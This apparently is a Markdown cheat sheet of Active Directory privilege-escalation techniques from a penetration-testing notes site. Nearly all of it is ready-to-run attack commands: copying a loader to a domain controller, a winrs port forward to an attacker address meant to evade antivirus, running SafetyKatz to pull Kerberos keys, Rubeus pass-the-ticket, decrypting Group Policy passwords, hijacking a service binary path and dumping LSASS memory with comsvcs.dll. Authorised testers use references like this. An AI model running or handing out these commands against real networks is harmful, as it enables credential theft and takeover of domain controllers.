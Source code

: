 ```yaml
---
layout: app
title: "Active Directory - PrivEsc"
tags: ["privesc","powerup","powerview","abuse service", "sc.exe", "Rubeus","permissions", "netloader","winrs","SafetyKats", "MS14-025","gpp-decrypt","autologon"]

---
```


# Privilege Escalation

## CheckList

- -**Missing Patches**
- -**Automated deployment**
- -**Autologon passwords**
- -**AlwaysInstallElevated**
- -**MisConfiguration Services**
- -**DLL Hijacking**
- -**NTLM Relaying**


### Tools
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* - Invoke-AllChecks
* [Privesc](https://github.com/enjoiz/Privesc)
* [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)


# Extract Hashes or Credentials

Import PowerView.ps1
Use to find out opened sessions

```powershell
Find-DomainUserLocation
```

Download NetLoader.exe and copy to Domain Controller

```powershell
echo f | xcopy C:\users\public\loader.exe \\dc01\c$\Users\Public\loader.exe
```

Add port forward into Domain Controller using winrs, to prevent AV detect

```powershell
$null | winrs -r:dc01 "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=280 connectaddress=[attacket_address]"
```

Invoke Loader to run SafetyKats to get hashes and credentials

```powershell
$null | winrs -r:dc01 "c:\Users\Public\loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit"
```

With **aes256_hmac** can be use **Rubeus** to execute command

```powershell
Rubeus.exe asktgt /user:<username> /aes256:<aes256_hmac> /opsec /createnetonly:C:\windows\system32\cmd.exe /show /ptt
```

# MS14-025

(https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN]

The password stored within Groups.xml inside SYSVOL share folder, must be decrypted use the Password published by Microsoft.

Use **gpp-decrypt** to do that.

```powershell
gpp-decrypt "EncryptedPassword"
```

## Enumeration

(https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN]


# Autologon

When auto logon is configured via Group Policy, can found the password into Registry.xml file.

## Tools

```powershell
NetExec smb -u <UserName> -p <Password> -d <Domain> -M gpp_autologin
```
* Get-GPPAutologon.ps1 (PowerSploit)


## PowerSploit

### Get Services with Unquoted Path

```powershell
Get-ServiceUnquoted -Verbose
Get-WmiObject -Class win32_service | select pathname
```
### Current User rights

Determine if the current user has rights to modify the service binary itself or any associated arguments

```powershell
Get-ModifiableServiceFile
```

### Get Service Security Permission
```powershell
sc.exe sdshow "servicename"
```
**--------------------OUTPUT----------------------------**

- **D**: Indicates that is a Security Policy
- **A**: Indicates than additional permits are granted.
- **CC**: Change Permissions
- **LCSW**: List Contents
- **RP**: Read Permission
- **WP**: Write Permission
- **DT**: Delete Toggles
- **LOCRRC**: Ocultar o revelar recursos
- **;;;** indicates that the permissions apply to the account **service**

### Abuse of service

```powershell
sc.exe config "servicename" binpath="newservicepath"
```


## Enumeration

### Find computers where a current user can execute commands

```powershell
Find-LocalAdminAccess
Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1 
Invoke-CheckLocalAdminAccess
```

### Get all domain computers

```powershell
Get-NetComputer
```
### Finds domain machines where specific users are logged into

```powershell
Test-AdminAccess
Find-DomainUserLocation -CheckAccess
Find-DomainUserLocation -Stealth
```
## Run all checks

### PowerUp


```powershell
Invoke-AllChecks
```

### Privesc

```powershell
Invoke-PrivEsc
Invoke-Privesc check
```

### PEASS-ng

```powershell
winPEASx64.exe
```

# Dump Memory

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump "Lsass Process ID" c:\temp\lsass.dmp full
```

## Tools 

* lsassy
* Physmem2profit
* impacket